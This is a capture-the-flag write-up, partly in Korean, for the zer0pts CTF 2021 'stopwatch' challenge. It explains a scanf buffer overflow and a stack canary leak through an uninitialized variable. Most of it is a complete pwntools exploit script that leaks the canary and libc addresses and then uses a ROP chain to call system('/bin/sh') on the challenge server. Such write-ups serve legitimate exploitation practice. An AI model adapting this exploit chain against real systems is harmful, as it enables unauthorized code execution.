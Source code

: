 ```yaml
---
layout: post
title: zer0pts CTF 2021 stopwatch write-up
categories: ctf-write-up
tags: [ctf]
---
```



## stopwatch (196pts, 22solves)

### Summary

1. `scanf("%s")`
2. Using + or - when calling scanf results in an `uninitialized variable`. (canary leak)



되게 신박했던 문제였다.  `scanf("%s")`를 사용하기 때문에 bof가 발생하는데 문제는 canary를 모른다는 것이었다.



근데 하나 특이한게 사용자에게 scanf로 소수를 입력받고 이를 출력해주는 루틴이 있었다. scanf로 숫자를 입력받을 때 +나 -를 넣으면 입력을 받지 않기 때문에 uninitialized 취약점이 발생한다.



그리고 이 출력되는 소수는 alloca가 어떻게 되는지에 따라 달라졋었는데 대충 27을 넣어주니 카나리가 릭되는 걸 확인했다.



그 이후엔 그냥 rop 하면 된다.

```python
from pwn import *
from struct import *

#p = process('./chall', env={'LD_PRELOAD':'./libc.so.6'})
p = remote("pwn.ctf.zer0pts.com", 9002)
e = ELF('./chall')
#libc = e.libc
libc = ELF('./libc.so.6')

def dtoi(f):
    return (unpack('<Q', pack('<d', f))[0])


p.sendlineafter('> ', 'A' * 0x80)
p.sendlineafter('> ', str(27))
p.sendlineafter(': ', '+')

canary = (dtoi(float(p.recvline().split(' ')[6])))
print hex(canary)

pop_rdi = 0x400e93

payload = ''
payload += 'A' * (0x20-8)
payload += p64(canary)
payload += 'A' * 8
payload += p64(pop_rdi)
payload += p64(0x601ff0)
payload += p64(e.plt['puts'])
payload += p64(0x40089B)

p.sendline()
p.sendline()
p.recv(2048)
p.sendline(payload)

p.recvuntil("Play again? (Y/n) ")
leak = u64(p.recv(6).ljust(8, '\x00'))
libc_base = leak - libc.sym['__libc_start_main'] 
system = libc_base + libc.sym['system']
binsh = libc_base + libc.search('/bin/sh').next()
print hex(libc_base)

payload = ''
payload += 'A' * (0x20-8)
payload += p64(canary)
payload += 'A' * 8
payload += p64(pop_rdi)
payload += p64(binsh)
payload += p64(pop_rdi - 2) * 3
payload += p64(system)

p.sendline()
p.sendline()
p.recv(2048)
p.sendline(payload)

p.interactive()
```



